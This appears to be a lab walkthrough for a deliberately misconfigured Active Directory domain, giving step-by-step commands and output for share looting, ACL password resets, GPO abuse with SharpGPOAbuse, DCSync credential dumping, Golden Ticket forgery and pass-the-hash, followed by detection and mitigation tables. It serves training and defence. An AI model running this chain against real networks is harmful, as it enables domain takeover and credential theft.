


# Lab 06: GPO Abuse → DCSync → Domain Admin

## Overview

A basic corporate Active Directory environment with intentionally introduced misconfigurations.
Designed to practice **SMB share enumeration**, **ACL abuse (ForceChangePassword)**, **GPO Abuse via Immediate Scheduled Task**, **DCSync**, and **Golden Ticket** — from a low-privileged user to **Domain Admin**.

## Topology

```
┌──────────────┐    ┌──────────────┐    ┌──────────────┐
│   DC01       │    │   VICTIM     │    │   Parrot     │
│ Win Server   │────│   Win 10/11  │────│   Parrot OS  │
│ 192.168.31.100│   │ 192.168.31.207│   │ 192.168.31.209│
│ DC + GPO     │    │   Client     │    │   Attacker   │
└──────────────┘    └──────────────┘    └──────────────┘
```

## Environment

| Component | Version |
|---|---|
| Domain Controller | Windows Server 2022 |
| Client | Windows 10/11 22H2 |
| Attacker | Parrot OS |
| Domain | `corp.local` |
| Subnet | `192.168.31.0/24` |

## Attack Chain

```
lowuser → SMB Public → note.txt → nbelova:PleaseChangeYourPassword123
       → nbelova → ForceChangePassword → afedorov
       → afedorov → WinRM → GPO Abuse → local admin on DC01
       → DCSync → krbtgt hash + Administrator hash
       → Golden Ticket → Domain Admin
```

## Accounts

| Name | Sam | Password | Group |
|---|---|---|---|
| Low User | lowuser | Password1 | Domain Users |
| Natalia Belova | nbelova | PleaseChangeYourPassword123 | Finance Users |
| Andrey Fedorov | afedorov | NewPassword123 | Remote Management Users, Group Policy Creator Owners |
| Administrator | Administrator | — | Domain Admins |

## Shares

| Share | Access |
|---|---|
| Public | Domain Users (Read) |
| Finance | Finance Users (Change) |
| IT | IT Users (Change) |
| HR | HR Users (Change) |
| Sales | Sales Users (Change) |
| Management | Management Users (Change) |

## Vulnerabilities

| # | Vulnerability | Where | MITRE |
|---|---|---|---|
| 1 | Credentials in Files | `Public` share (`note.txt`) | T1552.001 |
| 2 | ForceChangePassword ACL | `nbelova` → `afedorov` | T1098 |
| 3 | Weak Password | `lowuser`, `nbelova` | T1110.002 |
| 4 | GPO Abuse (Immediate Scheduled Task) | `afedorov` → `IT-Workstation-Settings` | T1484.001 |
| 5 | DCSync rights | `afedorov` (local admin on DC01) | T1003.006 |
| 6 | Golden Ticket | `krbtgt` | T1558.001 |

## Attack Steps

### 1. Initial Access (lowuser → Public → note.txt)

**Goal:** find credentials in a publicly readable share.

**Enumerate shares:**

```bash
nxc smb 192.168.31.100 -u lowuser -p 'Password1' --shares
```

**Output:**

```
SMB  192.168.31.100  445  DC01  [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:corp.local)
SMB  192.168.31.100  445  DC01  [+] corp.local\lowuser:Password1
SMB  192.168.31.100  445  DC01  [*] Enumerated shares
SMB  192.168.31.100  445  DC01  Share           Permissions     Remark
SMB  192.168.31.100  445  DC01  -----           -----------     ------
SMB  192.168.31.100  445  DC01  Public          READ,WRITE
```

**Download `note.txt`:**

```bash
smbclient //192.168.31.100/Public -U lowuser%Password1
smb: \> ls
smb: \> get note.txt
smb: \> exit
```

**Output (`note.txt`):**

```
=== HR SHARE ===

HR Admin!

Change your password to the temporary one:
nbelova : PleaseChangeYourPassword123

After the change you can set your own.
Don't forget to delete this file.

-- IT
```

**Result:** `nbelova : PleaseChangeYourPassword123`

### 2. Verify nbelova Credentials

**Goal:** confirm the password works.

```bash
nxc smb 192.168.31.100 -u nbelova -p 'PleaseChangeYourPassword123'
```

**Output:**

```
SMB  192.168.31.100  445  DC01  [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:corp.local)
SMB  192.168.31.100  445  DC01  [+] corp.local\nbelova:PleaseChangeYourPassword123
```

### 3. Enumerate nbelova's ACLs (BloodHound)

**Goal:** find objects where `nbelova` has `GenericAll` / `ForceChangePassword`.



**Load BloodHound and search for `nbelova`:**

```
MATCH (n:User {name:"NBELOVA@CORP.LOCAL"})-[r]->(m) RETURN n,r,m
```

**Output:**

```
nbelova --[ForceChangePassword]--> afedorov
```

**Result:** `nbelova` has `ForceChangePassword` on `afedorov`.

### 4. Change afedorov's Password

**Goal:** abuse `ForceChangePassword` to reset `afedorov`'s password.

```bash
bloodyAD --host 192.168.31.100 -d corp.local -u nbelova -p 'PleaseChangeYourPassword123' set password afedorov 'NewPassword123'
```

**Output:**

```
[+] Password changed successfully!
```

**Verify:**

```bash
nxc smb 192.168.31.100 -u afedorov -p 'NewPassword123'
```

**Output:**

```
SMB  192.168.31.100  445  DC01  [+] corp.local\afedorov:NewPassword123
```

### 5. Access DC01 via WinRM

**Goal:** use `afedorov` credentials to access DC01 via WinRM.

**Prerequisite:** `afedorov` is a member of `Remote Management Users` and `Group Policy Creator Owners`.



**Login:**

```bash
evil-winrm -i 192.168.31.100 -u afedorov -p 'NewPassword123'
```

**Output:**

```
*Evil-WinRM* PS C:\Users\afedorov\Documents>
```

**Verify group membership:**

```powershell
whoami /groups | findstr "Remote Management Group Policy"
```

**Output:**

```
CORP\Remote Management Users               Group    S-1-5-21-...-1121    Mandatory group, Enabled by default, Enabled group
CORP\Group Policy Creator Owners           Group    S-1-5-21-...-1122    Mandatory group, Enabled by default, Enabled group
```

### 6. Upload SharpGPOAbuse

**Goal:** upload SharpGPOAbuse to DC01.

```powershell
upload /tmp/SharpGPOAbuse.exe C:\Users\afedorov\Documents\SharpGPOAbuse.exe
```

**Output:**

```
Info: Uploading /tmp/SharpGPOAbuse.exe to C:\Users\afedorov\Documents\SharpGPOAbuse.exe
Data: 94888 bytes of 94888 bytes copied
Info: Upload successful!
```

### 7. GPO Abuse (Immediate Scheduled Task)

**Goal:** inject an Immediate Scheduled Task into `IT-Workstation-Settings` GPO.

**Run SharpGPOAbuse:**

```powershell
cd C:\Users\afedorov\Documents
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "WindowsUpdateCheck" --Author "CORP\Administrator" --Command "cmd.exe" --Arguments "/c net localgroup administrators afedorov /add" --GPOName "IT-Workstation-Settings"
```

**Output:**

```
[+] Domain = corp.local
[+] Domain Controller = DC01.corp.local
[+] Distinguished Name = CN=Policies,CN=System,DC=corp,DC=local
[+] GUID of "IT-Workstation-Settings" is: {DB3FB2EE-0098-4971-B934-E8A90BBE884E}
[+] Creating file \\corp.local\SysVol\corp.local\Policies\{DB3FB2EE-...}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new immediate task. Wait for the GPO refresh cycle.
[+] Done!
```

**Result:** Immediate Scheduled Task injected into GPO.

### 8. Force GPO Update

**Goal:** apply the GPO to DC01.

**Note:** GPO `IT-Workstation-Settings` is linked to `OU=IT,DC=corp,DC=local`. To apply it to DC01, link it to `OU=Domain Controllers`.

**Force update on DC01:**

```powershell
gpupdate /force
```

**Output:**

```
Updating policy...
Computer Policy update has completed successfully.
User Policy update has completed successfully.
```

**Verify `afedorov` is a local admin:**

```powershell
net localgroup administrators
```

**Output:**

```
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
afedorov
Domain Admins
Enterprise Admins
The command completed successfully.
```

**Result:** `afedorov` is now a local administrator on DC01.

### 9. DCSync

**Goal:** extract `krbtgt` and `Administrator` hashes via DCSync.

**From Parrot OS:**

```bash
secretsdump.py corp.local/afedorov:NewPassword123@192.168.31.100
```

**Output:**

```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7b71bee7907489b8dea9a06bab7917b2:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:b666bb712258b47c988113381c9a091d:::
corp.local\afedorov:1125:aad3b435b51404eeaad3b435b51404ee:20688f5fcfa2354f667523a73a3d1951:::
corp.local\nbelova:1126:aad3b435b51404eeaad3b435b51404ee:42e7cbf82e6d49c1ac4847c94207dafe:::
corp.local\lowuser:1139:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
...
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:bdb74e3cc906c583ac54aa896b2b425c7c146b673d76fb6d91fac62611040a4c
krbtgt:aes128-cts-hmac-sha1-96:822569edb09ab4f0a40bf7c65b29ff8b
...
```

**Result:**
- `krbtgt` NTLM hash = `b666bb712258b47c988113381c9a091d`
- `Administrator` NTLM hash = `7b71bee7907489b8dea9a06bab7917b2`

### 10. Golden Ticket

**Goal:** create a Golden Ticket for `Administrator`.

**Get Domain SID:**

```bash
nxc ldap 192.168.31.100 -u afedorov -p 'NewPassword123' --query "(objectClass=domain)" "objectSid"
```

**Output:**

```
LDAP  192.168.31.100  389  DC01  [+] Response for object: DC=corp,DC=local
LDAP  192.168.31.100  389  DC01  objectSid  S-1-5-21-3294273248-732266639-3691972774
```

**Create Golden Ticket:**

```bash
ticketer.py -nthash b666bb712258b47c988113381c9a091d -domain-sid S-1-5-21-3294273248-732266639-3691972774 -domain corp.local Administrator
```

**Output:**

```
[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for corp.local/Administrator
[*] Saving/Updating ticket in Administrator.ccache
```

**Load ticket:**

```bash
export KRB5CCNAME=Administrator.ccache
klist
```

**Output:**

```
Ticket cache: FILE:Administrator.ccache
Default principal: Administrator@CORP.LOCAL

Valid starting       Expires              Service principal
09/19/2026 18:29:09  09/16/2036 18:29:09  krbtgt/CORP.LOCAL@CORP.LOCAL
        renew until 09/16/2036 18:29:09
```

### 11. Domain Admin

**Goal:** use Golden Ticket to access DC01.

**Add DNS entry:**

```bash
echo "192.168.31.100 DC01.corp.local corp.local" | sudo tee -a /etc/hosts
```

**Use `psexec`:**

```bash
psexec.py corp.local/Administrator@DC01.corp.local -k -no-pass -dc-ip 192.168.31.100
```

**Output:**

```
[*] Requesting shares on DC01.corp.local.....
[*] Found writable share ADMIN$
[*] Uploading file RbmCblNA.exe
[*] Opening SVCManager on DC01.corp.local.....
[*] Creating service SbrY on DC01.corp.local.....
[*] Starting service SbrY.....
Microsoft Windows [Version 10.0.20348.587]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

**Result:** Domain Admin achieved via Golden Ticket.

### 12. Pass-the-Hash (Verification)

**Goal:** verify access via Pass-the-Hash.

```bash
evil-winrm -i 192.168.31.100 -u Administrator -H 7b71bee7907489b8dea9a06bab7917b2
```

**Output:**

```
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

**Result:** Pass-the-Hash works.

## Detection

| Attack | Event ID | Source |
|---|---|---|
| SMB Share Enum | 5140 | DC Security Log |
| ForceChangePassword | 4724 | DC Security Log |
| GPO Modification | 5136 | DC Security Log |
| Immediate Task Execution | 4698 | DC Security Log |
| DCSync | 4662 (Replicating Directory Changes) | DC Security Log |
| Golden Ticket | 4769 (Anomalous TGT) | DC Security Log |
| Pass-the-Hash | 4624 (Logon Type 3, NTLM) | DC Security Log |

**What to look for:**

- **4724** — password reset by unusual user (`nbelova` → `afedorov`).
- **5136** — GPO modified by non-admin (`afedorov`).
- **4698** — scheduled task created by GPO (Immediate Task).
- **4662** — DCSync (`Replicating Directory Changes`).
- **4769** — TGT with 10-year lifetime (Golden Ticket).

## Mitigation

| Attack | Mitigation |
|---|---|
| Credentials in Files | No plaintext passwords on shares |
| ForceChangePassword | Audit ACLs; least privilege |
| Weak Passwords | Strong password policy |
| GPO Abuse | Restrict `Group Policy Creator Owners`; audit GPO ACLs |
| DCSync | Audit `Replicating Directory Changes`; don't grant to service accounts |
| Golden Ticket | Rotate `krbtgt` twice; monitor anomalous TGT lifetime |
| Pass-the-Hash | Disable NTLM; use Kerberos; Protected Users |

## References

- [MITRE ATT&CK](https://attack.mitre.org/)
- [HackTricks — AD Methodology](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology)
- [The Hacker Recipes](https://www.thehacker.recipes/)
- [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)
- [Impacket](https://github.com/fortra/impacket)
- [NetExec](https://github.com/Pennyw0rth/NetExec)
- [BloodyAD](https://github.com/CravateRouge/bloodyAD)

## Status

Complete — chain from `lowuser` to **Domain Admin** via SMB share, ACL abuse, GPO Abuse, DCSync, and Golden Ticket.
